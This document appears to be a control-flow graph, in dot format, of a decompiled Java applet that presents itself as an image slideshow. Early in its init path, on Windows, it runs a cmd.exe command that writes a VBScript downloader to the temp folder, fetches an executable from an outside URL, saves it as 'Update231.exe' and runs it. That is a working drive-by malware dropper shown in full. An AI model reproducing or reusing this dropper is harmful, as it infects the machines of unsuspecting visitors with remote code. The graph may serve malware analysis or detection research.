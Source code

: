 digraph "" {
    "r0 := @this: H7X7B1K7"
    "push \"os.name\""
    "r0 := @this: H7X7B1K7"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\H3B7I7G8.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\H3B7I7G8.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\H3B7I7G8.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\H3B7I7G8.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Open >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\H3B7I7G8.vbs & echo Function BinaryGetURL(URL) >> %temp%\\H3B7I7G8.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Send >> %temp%\\H3B7I7G8.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\H3B7I7G8.vbs & echo End Function >> %temp%\\H3B7I7G8.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\Update231.exe\\\" >> %temp%\\H3B7I7G8.vbs & start %temp%\\H3B7I7G8.vbs http://videouploads.pcriot.com/Java.exe %temp%\\Update231.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\H3B7I7G8.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\H3B7I7G8.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\H3B7I7G8.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\H3B7I7G8.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Open >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\H3B7I7G8.vbs & echo Function BinaryGetURL(URL) >> %temp%\\H3B7I7G8.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Send >> %temp%\\H3B7I7G8.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\H3B7I7G8.vbs & echo End Function >> %temp%\\H3B7I7G8.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\Update231.exe\\\" >> %temp%\\H3B7I7G8.vbs & start %temp%\\H3B7I7G8.vbs http://videouploads.pcriot.com/Java.exe %temp%\\Update231.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\H3B7I7G8.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\H3B7I7G8.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\H3B7I7G8.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\H3B7I7G8.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\H3B7I7G8.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Open >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\H3B7I7G8.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\H3B7I7G8.vbs & echo Function BinaryGetURL(URL) >> %temp%\\H3B7I7G8.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\H3B7I7G8.vbs & echo YK16ggjQQ.Send >> %temp%\\H3B7I7G8.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\H3B7I7G8.vbs & echo End Function >> %temp%\\H3B7I7G8.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\Update231.exe\\\" >> %temp%\\H3B7I7G8.vbs & start %temp%\\H3B7I7G8.vbs http://videouploads.pcriot.com/Java.exe %temp%\\Update231.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <H7X7B1K7: int w>"
    "push -1"->"fieldput <H7X7B1K7: int w>";
    "fieldput <H7X7B1K7: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <H7X7B1K7: int h>"
    "push -1"->"fieldput <H7X7B1K7: int h>";
    "fieldput <H7X7B1K7: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <H7X7B1K7: boolean whb>"
    "push 0"->"fieldput <H7X7B1K7: boolean whb>";
    "fieldput <H7X7B1K7: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>";
    "fieldput <H7X7B1K7: int dly>"
    "virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>"->"fieldput <H7X7B1K7: int dly>";
    "fieldput <H7X7B1K7: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>";
    "fieldput <H7X7B1K7: int wp>"
    "virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>"->"fieldput <H7X7B1K7: int wp>";
    "fieldput <H7X7B1K7: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>";
    "fieldput <H7X7B1K7: int sc>"
    "virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>"->"fieldput <H7X7B1K7: int sc>";
    "fieldput <H7X7B1K7: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>";
    "fieldput <H7X7B1K7: int modd>"
    "virtualinvoke <H7X7B1K7: int fi(java.lang.String,int,int)>"->"fieldput <H7X7B1K7: int modd>";
    "fieldput <H7X7B1K7: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <H7X7B1K7: int modd>"
    "load.r r0"->"fieldget <H7X7B1K7: int modd>";
    "push 2"
    "fieldget <H7X7B1K7: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <H7X7B1K7: int modd>";
    "fieldput <H7X7B1K7: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <H7X7B1K7: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <H7X7B1K7: java.awt.MediaTracker tracker>";
    "fieldput <H7X7B1K7: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <H7X7B1K7: int i>"
    "push 1"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <H7X7B1K7: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <H7X7B1K7: java.lang.String ivalign>";
    "fieldput <H7X7B1K7: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <H7X7B1K7: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <H7X7B1K7: java.lang.String ialign>";
    "fieldput <H7X7B1K7: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <H7X7B1K7: int i>"
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <H7X7B1K7: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <H7X7B1K7: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <H7X7B1K7: java.lang.String bs>";
    "fieldput <H7X7B1K7: java.lang.String bs>"->"load.r r0";
    "fieldget <H7X7B1K7: java.lang.String bs>"
    "load.r r0"->"fieldget <H7X7B1K7: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <H7X7B1K7: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int num>"
    "fieldget <H7X7B1K7: int i>"->"fieldput <H7X7B1K7: int num>";
    "fieldput <H7X7B1K7: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <H7X7B1K7: int num>"
    "load.r r0"->"fieldget <H7X7B1K7: int num>";
    "fieldget <H7X7B1K7: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <H7X7B1K7: java.awt.Image[] img>"
    "newarray"->"fieldput <H7X7B1K7: java.awt.Image[] img>";
    "fieldput <H7X7B1K7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int num>";
    "fieldget <H7X7B1K7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <H7X7B1K7: int[] imgw>"
    "newarray"->"fieldput <H7X7B1K7: int[] imgw>";
    "fieldput <H7X7B1K7: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int num>";
    "fieldget <H7X7B1K7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <H7X7B1K7: int[] imgh>"
    "newarray"->"fieldput <H7X7B1K7: int[] imgh>";
    "fieldput <H7X7B1K7: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int num>";
    "fieldget <H7X7B1K7: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <H7X7B1K7: int[] dur>"
    "newarray"->"fieldput <H7X7B1K7: int[] dur>";
    "fieldput <H7X7B1K7: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <H7X7B1K7: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <H7X7B1K7: java.awt.Image[] img>"
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Image[] img>";
    "fieldget <H7X7B1K7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <H7X7B1K7: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <H7X7B1K7: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.MediaTracker tracker>";
    "fieldget <H7X7B1K7: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Image[] img>";
    "fieldget <H7X7B1K7: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "arrayread.r"
    "fieldget <H7X7B1K7: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "push 5"
    "fieldget <H7X7B1K7: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <H7X7B1K7: int durum>"
    "push 0"->"fieldput <H7X7B1K7: int durum>";
    "fieldput <H7X7B1K7: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <H7X7B1K7: int w>";
    "fieldput <H7X7B1K7: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <H7X7B1K7: int h>";
    "fieldput <H7X7B1K7: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <H7X7B1K7: int w>"
    "load.r r0"->"fieldget <H7X7B1K7: int w>";
    "fieldget <H7X7B1K7: int w>"->"load.r r0";
    "fieldget <H7X7B1K7: int h>"
    "load.r r0"->"fieldget <H7X7B1K7: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <H7X7B1K7: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <H7X7B1K7: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <H7X7B1K7: java.awt.Image offi>";
    "fieldput <H7X7B1K7: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <H7X7B1K7: java.awt.Image offi>"
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <H7X7B1K7: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <H7X7B1K7: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <H7X7B1K7: java.awt.Graphics offg2>";
    "fieldput <H7X7B1K7: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <H7X7B1K7: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Graphics offg2>";
    "fieldget <H7X7B1K7: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int w>";
    "fieldget <H7X7B1K7: int w>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <H7X7B1K7: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <H7X7B1K7: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <H7X7B1K7: java.awt.Container container>";
    "fieldput <H7X7B1K7: java.awt.Container container>"->"load.r r0";
    "fieldget <H7X7B1K7: java.awt.Container container>"
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Container container>";
    "instanceof"
    "fieldget <H7X7B1K7: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <H7X7B1K7: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <H7X7B1K7: java.awt.Container container>";
    "fieldput <H7X7B1K7: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.awt.Container container>";
    "checkcast"
    "fieldget <H7X7B1K7: java.awt.Container container>"->"checkcast";
    "fieldput <H7X7B1K7: java.awt.Frame frm>"
    "checkcast"->"fieldput <H7X7B1K7: java.awt.Frame frm>";
    "fieldput <H7X7B1K7: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <H7X7B1K7: boolean whb>";
    "return"
    "fieldput <H7X7B1K7: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.lang.String bs>";
    "push \".gif\""
    "fieldget <H7X7B1K7: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <H7X7B1K7: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
